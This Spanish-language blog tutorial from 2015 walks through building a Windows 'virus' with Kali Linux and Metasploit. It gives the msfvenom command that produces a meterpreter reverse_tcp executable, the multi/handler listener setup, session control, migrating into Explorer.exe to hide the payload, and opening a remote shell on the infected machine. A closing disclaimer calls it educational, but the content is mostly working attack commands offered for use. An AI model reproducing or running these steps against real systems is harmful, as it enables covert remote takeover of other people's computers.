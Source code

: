 # Creación de Virus y Control Remoto del Equipo Víctima con Kali Linux

Publicado el 9 de agosto de 2015 por David

## Introducción

En este tutorial, aprenderás cómo crear un virus usando el Metasploit Framework en Kali Linux. Este proceso incluye la generación de un payload y la configuración de un servidor para interactuar y controlar remotamente el equipo infectado.

### Creación del Payload

Para comenzar, necesitas abrir una terminal en Kali Linux y ejecutar el siguiente comando:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=[tu IP] LPORT=9999 -a x86 –platform windows -o /root/Desktop/virus.exe -f exe```

`-p`: Especifica el payload a utilizar.
`-a`: Define la arquitectura que utilizará el virus.
`--platform`: Determina la plataforma en la que actuará el virus.
`-o`: Establece el directorio donde se guardará el virus.
`-f`: Define el formato en el que se guardará el virus.

# Creación del Servidor
Para interactuar con los equipos infectados, abre otra terminal y ejecuta:
msfconsole

Dentro de Metasploit, configura el handler para el payload:
`use multi/handler`
`set PAYLOAD windows/meterpreter/reverse_tcp`
`set LHOST 192.168.1.116`
`set LPORT 9999`
`exploit -j`

# Explotación y Control Remoto
Una vez que el virus se ejecute en una máquina Windows, podrás controlarla remotamente. Usa el comando `sessions -i` para ver las sesiones activas y conectarte a la máquina atacada:
`sessions -i 1`

Con esto, tendrás acceso a los procesos de la máquina infectada. Puedes ocultar el virus fusionándolo con otro proceso como `Explorer.exe` usando el comando `migrate`.

# Obtención de la Shell Remota
Para interactuar directamente con la máquina infectada:
`shell`

Advertencia
Este tutorial es meramente educativo. Crear y distribuir virus es una actividad ilegal en muchas jurisdicciones. Este conocimiento debe usarse solo en entornos controlados y con fines educativos.
